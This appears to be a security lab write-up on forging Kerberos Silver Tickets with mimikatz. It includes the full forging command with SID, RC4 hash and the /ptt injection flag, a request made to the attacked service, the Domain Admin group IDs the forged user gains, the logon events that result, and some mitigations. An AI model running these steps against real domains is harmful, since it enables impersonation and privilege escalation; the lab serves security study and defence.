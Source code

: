 ```yaml
---
description: Credential Access
---
```


# Kerberos Silver Tickets

This lab looks at the technique of forging a cracked TGS Kerberos ticket in order to impersonate another user and escalate privileges.

This lab builds on the explorations in [T1208: Kerberoasting](./) where a TGS ticket got cracked.

## Execution

I will be using mimikatz to create a Kerberos Silver Ticket - forging/rewriting the cracked ticket with some new details that benefit the me as an attacker. 

Below is a table with values supplied to mimikatz explained and the command itseld:

| Argument | Notes |
| :--- | :--- |
| /sid:S-1-5-21-4172452648-1021989953-2368502130-1105 | SID of the current user who is forging the ticket. Retrieved with `whoami /user` |
| /target:dc-mantvydas.offense.local | server hosting the attacked service for which the TGS ticket was cracked |
| /service:http | service type being attacked |
| /rc4:a87f3a337d73085c45f9416be5787d86 | NTLM hash of the password the TGS ticket was encrypted with. `Passw0rd` in our case |
| /user:beningnadmin | Forging the user name. This is the user name that will appear in the windows security logs - fun. |
| /id:1155 | Forging user's RID |
| /ptt | Instructs mimikatz to inject the forged ticket to memory to make it usable immediately |

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
mimikatz # kerberos::golden /sid:S-1-5-21-4172452648-1021989953-2368502130-1105 /domain:offense.local /ptt /id:1155 /target:dc-mantvydas.offense.local /service:http /rc4:a87f3a337d73085c45f9416be5787d86 /user:beningnadmin
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![Getting a user&apos;s SID](../../.gitbook/assets/silver-tickets-whoami.png)

Creating the ticket with mimikatz and checking available tickets in memory with `klist` - note how the ticket specified our new client `benignadmin`

![](../../.gitbook/assets/silver-tickets-generated-ticket%20%282%29.png)

Note in the above mimikatz window the Group IDs which the fake user `benignadmin` is now a member of due to the forged ticket:

| GID | Group Name |
| :--- | :--- |
| 512 | Domain Admins |
| 513 | Domain Users |
| 518 | Schema Admins |
| 519 | Enterprise Admins |
| 520 | Group Policy Creator Owners |

![](../../.gitbook/assets/silver-tickets-groups.png)

Initiating a request to the attacked service with a TGS ticket:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
Invoke-WebRequest -UseBasicParsing -UseDefaultCredentials http://dc-mantvydas.offense.local
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/silver-tickets-httprequest.png)

## Observations

Note a network logon from `benignadmin` as well as forged RIDs:

![](../../.gitbook/assets/silver-tickets-4624%20%281%29.png)

It is better not to use user accounts for running services on them or if you do use them, make sure to use really strong passwords! Computer accounts generate long and complex passwords and they change frequently or follow good practices such as using [Group Managed Service Accounts](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/hh831782%28v=ws.11%29) for running services on.

{% embed data="{\"url\":\"https://blog.stealthbits.com/impersonating-service-accounts-with-silver-tickets\",\"type\":\"link\",\"title\":\"Impersonating Service Accounts with Silver Tickets \| Insider Threat Blog\",\"description\":\"How attackers use Kerberos silver tickets to exploit service accounts without creating network traffic or event logs to avoid detection.\",\"icon\":{\"type\":\"icon\",\"url\":\"https://blog.stealthbits.com/wp-content/uploads/2016/06/cropped-Logo\_STEALTHbits\_Orb\_Blue\_250x250-192x192.png\",\"width\":192,\"height\":192,\"aspectRatio\":1},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://blog.stealthbits.com/wp-content/uploads/2017/05/Banner-Blog-Series-1024-x-326-2.jpg\",\"width\":1024,\"height\":326,\"aspectRatio\":0.318359375}}" %}

